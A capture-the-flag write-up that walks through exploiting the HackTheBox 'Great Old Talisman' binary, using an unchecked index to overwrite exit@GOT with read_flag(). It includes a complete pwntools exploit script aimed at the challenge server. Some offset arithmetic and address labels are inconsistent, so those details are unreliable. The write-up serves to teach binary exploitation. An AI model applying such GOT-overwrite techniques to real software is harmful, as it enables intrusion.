 ```yaml
---
title: "Great Old Talisman Challenge Writeup: Memory Vulnerability - HackTheBox University CTF 2023: Brains & Bytes"
layout: post
author: Jorge Moreno
---
```


This challenge comes from [HackTheBox University CTF 2023: Brains & Bytes](../htb-bb-2023-ctf)

## Challenge Description

---

> Zombies are closing in from all directions, and our situation appears dire! Fortunately, we've come across this ancient and formidable Great Old Talisman, a source of hope and protection. However, it requires the infusion of a potent enchantment to unleash its true power.
> 

Challenge Author(s): w3th4nds \
Category: **Binary Explotation**  
Difficulty: **Very Easy**

## Challenge Solution

---

First, we check the file with ``file`` and ``checksec`` commands:

We can see it is dinamically linked 64-bit binary. With canary (stack protector) and the No eXecute bit so we can’t use shellcode to pwn this challenge.

The first thing we see after executing the vulnerable binary is the following text:

![Untitled](images/great-old-talisman/Untitled.png)

It prompts us for a number 1 or 0. After that it receives an input of 2 bytes from stdin.

Lets begin with with the decompiling.

```c
void main(void)

{
  long in_FS_OFFSET;
  int option;
  undefined8 canary;
  
  canary = *(undefined8 *)(canary + 0x28);
  setup();
  banner();
  printf(
        "\nThis Great Old Talisman will protect you from the evil powers of zombies! (...) \n>> "
        );
  __isoc99_scanf("%d",&option);
  printf("\nSpell: ");
  read(0,talis + (long)option * 8,2);
                    /* WARNING: Subroutine does not return */
  exit(0x520);
}
```

The main function reads from stdin the option and then uses it to store the 2 bytes that we send it.

```c
read(0,talis + (long)option * 8,2);
```

Reads 2 bytes and stores it in the address of ``talis + (option * 8)``. This line is vulnerable to arbitrary write, because as we can see there are not limits inside the integer that we can send to the program. So we could overwrite any address we want with an arbitrary (2 byte long) value. 

In this case we can see that there is also a function called ``read_flag()`` that prints the flag to us.

In the assembly code for ``main()`` function we can see that the next function called right after ``read()`` is ``exit()``

![Untitled](images/great-old-talisman/Untitled%201.png)

With the ``dump qword`` command from ``gdb-pwndbg`` we check the address of ``talis``.

![Untitled](images/great-old-talisman/Untitled%202.png)

And ``read_flag()`` with info fun.

![Untitled](images/great-old-talisman/Untitled%203.png)

We can check the ``exit@GOT`` function with Ghidra:

![Untitled](images/great-old-talisman/Untitled%204.png)

So we could maybe overwrite the exit function last 2 bytes with the bug we saw before.

To do this we have to calculate the offset and get a number that we can send to the program that after being multiplicated by 8 and added to **talis** is the address of **exit.**

``0x404080 - 0x4040a0 = -32``

We know that it multiplicates it by 8 so we can send -4. That way it will store the 2 bytes that we send at ``0x404080 + (-4*8) = 0x4040a0 (exit.got.plt)`` 

Now we send the last two bytes of the ``read_flag()`` function address ``\x5a\x13`` and we can grab our flag.

## Full Script

---

{% highlight python %}
#!/usr/bin/env python3
from pwn import *

exe = context.binary = ELF(args.EXE or './chall', checksec = False)

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote("94.237.48.55", 56734)
    #nc 94.237.48.55 56734
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
continue
'''.format(**locals())

exit_got = 0x404080
talis = 0x4040a0 

# Escribo \x5a\x13 en 0x404080 + (0x404080 - 0x4040a0)
# Le pasamos primero option = -0x20 = -32
# Le pasamos -4 porque el read multiplica option * 8. 
# Le pasamos los 2 bytes de la direccion y lo tira

io = start()

io.sendlineafter(b'>>', b'-4')
io.recvuntil(b':')
io.send(b'\x5a\x13')

io.interactive()
{% endhighlight %}


**FLAG - HTB{th4nk_G0T_w3_h4v3_th15_t4l15m4n}**